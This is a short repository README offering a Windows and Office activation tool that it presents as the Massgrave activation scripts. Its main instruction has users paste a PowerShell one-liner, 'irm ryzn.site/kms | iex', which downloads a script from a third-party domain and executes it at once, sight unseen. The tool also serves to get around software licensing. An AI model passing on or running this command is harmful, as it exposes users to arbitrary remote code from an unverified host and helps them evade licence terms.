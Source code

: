# kms-frontend
## windows-activators
## Microsoft Activation Scripts (MAS):

A Windows and Office activator using HWID / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.

## Download / How to use it?

### Method 1 - PowerShell

-   On Windows 10/11, right-click on the windows start menu and select PowerShell or Terminal.
-   Copy-paste the below code and press enter\
    `irm ryzn.site/kms | iex`
    or
    `irm https://ryzn.site/kms | iex`
-   You will see the activation options, and follow onscreen instructions.
-   That's all.

```
Latest Version: 1.7
Release date: 25-November-2022
```

### For more details, check Homepage:  https://massgrave.dev/

Credit to Massgrave

---

Made with Love ❤️
